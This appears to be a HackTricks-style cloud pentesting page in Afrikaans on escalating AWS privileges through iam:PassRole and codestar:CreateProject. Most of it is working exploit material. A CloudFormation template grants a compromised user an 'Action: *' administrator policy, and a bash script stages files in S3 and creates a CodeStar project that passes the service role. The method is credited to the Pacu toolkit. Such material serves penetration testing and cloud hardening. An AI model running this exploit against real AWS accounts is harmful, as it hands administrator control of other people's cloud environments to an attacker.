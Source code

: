 # iam:PassRole, codestar:CreateProject

{{#include ../../../../banners/hacktricks-training.md}}

Met hierdie toestemmings kan jy **'n codestar IAM Rol misbruik** om **arbitraire aksies** deur 'n **cloudformation sjabloon** uit te voer.

Om dit te benut, moet jy 'n **S3-bucket skep wat toeganklik is** vanaf die aangevalde rekening. Laai 'n lêer genaamd `toolchain.json` op. Hierdie lêer moet die **cloudformation sjabloon exploit** bevat. Die volgende kan gebruik word om 'n bestuurde beleid aan 'n gebruiker onder jou beheer toe te ken en **admin-toestemmings** te gee:
```json:toolchain.json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": ["<compromised username>"]
}
}
}
}
```
Laai ook hierdie `empty zip` lêer op na die **bucket**:

{{#file}}
empty.zip
{{#endfile}}

Onthou dat die **bucket met albei lêers toeganklik moet wees deur die slagoffer rekening**.

Met albei dinge opgelaai kan jy nou voortgaan met die **exploitation** deur 'n **codestar** projek te skep:
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
Hierdie exploit is gebaseer op die **Pacu exploit van hierdie voorregte**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) Daarop kan jy 'n variasie vind om 'n admin bestuurde beleid vir 'n rol te skep in plaas van vir 'n gebruiker.

{{#include ../../../../banners/hacktricks-training.md}}
